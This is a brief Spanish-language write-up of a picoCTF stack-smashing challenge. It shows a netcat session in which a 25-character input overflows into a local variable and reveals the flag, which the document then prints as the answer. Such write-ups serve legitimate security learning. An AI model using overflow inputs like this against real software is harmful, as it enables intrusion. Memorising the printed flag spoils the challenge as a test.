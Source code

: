 
 
#### Description

Smash the stack

Additional details will be available after launching your challenge instance.


## Pistas




## Solución

```
Analizamos el archivo con el gdb para layout, despues ingresamos la cadena

                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/hacking/z]
└─$ nc saturn.picoctf.net 65175
Enter a string: BBBBBBBBBBBBBBBBBBBBBBBB 

num is 0
Bye!
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/hacking/z]
└─$ nc saturn.picoctf.net 65175
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/hacking/z]
└─$ 










```

## Bandera
Flag: picoCTF{l0c4l5_1n_5c0p3_ee58441a}

## Notas adicionales


## Referencias
